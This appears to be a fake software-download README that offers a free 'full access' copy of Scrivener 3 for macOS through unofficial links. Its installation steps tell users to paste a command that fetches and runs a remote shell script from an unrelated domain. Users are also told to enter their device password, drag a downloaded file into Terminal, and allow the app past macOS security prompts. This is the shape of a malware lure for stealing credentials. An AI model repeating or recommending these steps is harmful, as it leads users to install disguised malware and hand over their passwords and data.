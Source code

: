 <p align="center">
  <img src="https://sm.pcmag.com/pcmag_au/review/s/scrivener/scrivener_fh2p.jpg" alt="Scrivener 3 Mac Banner" />
</p>

<h1 align="center">Scrivener 3 for macOS</h1>

<p align="center">
  ✍️ Write, organize, and publish long-form content with a tool made for authors and creatives.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/117" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Scrivener 3 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://www.literatureandlatte.com/wp-content/uploads/2017/11/LaptopScriv.jpg" alt="Scrivener 3 Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Scrivener 3?

**Scrivener 3** is a comprehensive writing environment for macOS, trusted by novelists, screenwriters, academics, and professionals worldwide. It allows you to break down long texts into manageable parts, move sections freely, and focus on the structure of your work as much as the words themselves.

With features like the corkboard, outliner, research storage, and manuscript compile tools, Scrivener adapts to your creative process — whether you're writing fiction, screenplays, research papers, or blog series.

Optimized for **macOS Sonoma, Ventura, Monterey** and running natively on **Intel and Apple Silicon (M1/M2/M3)**, Scrivener 3 gives writers the tools to start, shape, and finish any large-scale writing project.

---

## ✅ Why Choose Scrivener 3?

- 🧾 **Corkboard View** – Organize sections with drag-and-drop cards  
- 📚 **Outliner & Structure** – Manage scenes, chapters, and metadata  
- ✍️ **Focused Writing Mode** – Distraction-free full-screen interface  
- 🧠 **Research Binder** – Store images, PDFs, notes, and web clippings  
- 🔁 **Revision Tracking** – Label, color-code, and snapshot your drafts  
- 🧩 **Compile & Export** – Output to DOCX, PDF, ePub, Final Draft & more  
- 🎯 **Templates for All Formats** – Novels, scripts, nonfiction, etc.  
- ⚡ **Built for Mac** – Runs fast and smooth on Apple Silicon  

> Whether you're outlining a novel or finalizing a thesis, **Scrivener 3** keeps everything in one place — from concept to publication.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://www.literatureandlatte.com/wp-content/uploads/2023/09/1-four-screens.jpg" alt="Scrivener 3 Corkboard Screenshot" />
  <br><br>
  <img src="https://i.etsystatic.com/40150833/r/il/6f3c45/5833317922/il_1080xN.5833317922_dk3b.jpg" alt="Scrivener 3 Compile Tool Screenshot" />
</p>

---

## 🚀 Key Features

- 📚 Long-form writing organizer  
- 🧠 Research & media binder  
- ✍️ Distraction-free writing mode  
- 🧾 Outliner & corkboard views  
- 📤 Compile to multiple formats  
- 📁 Project and session targets  
- 🎬 Scriptwriting support  
- 🖥️ Native for macOS Sonoma & M1/M2/M3  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Scrivener 3 under "App Management"

---

## 🔍 Tags

```text
scrivener 3 mac download, scrivener for macbook, scrivener apple silicon, scrivener 3 full version mac, scrivener for m1 mac, scrivener writing software, longform writing macos, download scrivener 3 macos, scrivener 3 intel m1 support, scrivener ventura compatible, mac novel writing app, scrivener 3 m1 native, best writing tool for mac, scrivener macbook pro, scrivener 3 standalone installer
